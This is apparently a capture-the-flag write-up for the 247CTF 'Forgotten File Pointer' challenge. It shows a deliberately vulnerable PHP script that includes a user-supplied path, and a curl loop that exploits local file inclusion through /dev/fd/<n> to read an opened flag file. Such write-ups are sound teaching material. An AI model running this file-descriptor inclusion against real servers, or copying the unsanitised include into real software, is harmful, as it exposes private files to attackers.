

# FORGOTTEN FILE POINTER [MODERATE]

## Description

> We have opened the flag, but forgot to read and print it. Can you access it anyway?

## Source Code



<details><summary>Click here for source code in text format</summary>

```php
<?php
  $fp = fopen("/tmp/flag.txt", "r");
  if($_SERVER['REQUEST_METHOD'] === 'GET' && isset($_GET['include']) && strlen($_GET['include']) <= 10) {
    include($_GET['include']);
  }
  fclose($fp);
  echo highlight_file(__FILE__, true);
?>
```

</details>

## Short Solution Description / Tags

LFI /dev/fd/\<fd>

## Solution

A length of `include` query parameter should be less than or equal to 10.
The length of `/tmp/flag.txt` is 13 so we cannot use it to get the flag.
Instead, /dev/fd/\<fd> is useful.

```console
$ for i in $(seq 1 100); do curl -s -G https://28ffbc7bf3f45057.247ctf.com/ --data-urlencode "include=/dev/fd/${i}" | grep 247CTF && break; done
247CTF{[REDACTED]}
```

## References

- [PHP :: Request #26158 :: Open arbitrary file descriptor with fopen](https://bugs.php.net/bug.php?id=26158)
